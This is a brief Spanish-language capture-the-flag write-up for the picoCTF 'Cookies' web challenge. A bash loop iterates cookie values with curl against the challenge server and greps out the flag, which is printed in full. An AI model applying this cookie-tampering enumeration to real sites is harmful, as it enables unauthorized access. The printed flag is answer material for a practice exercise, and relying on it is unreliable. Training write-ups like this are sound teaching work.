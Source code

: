 #### Descripción
Who doesn't love cookies? Try to figure out the best one.

#### Solución 
En este problema lo que tenemos que es usar un comando para poder realizar este reto
```
RepugnamShip33-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
```


#### Notas Adicionales
Tambien se podia realizar haciendo una funcion aparte para descifrar por nuestra cuenta la flag.
#### Referencias

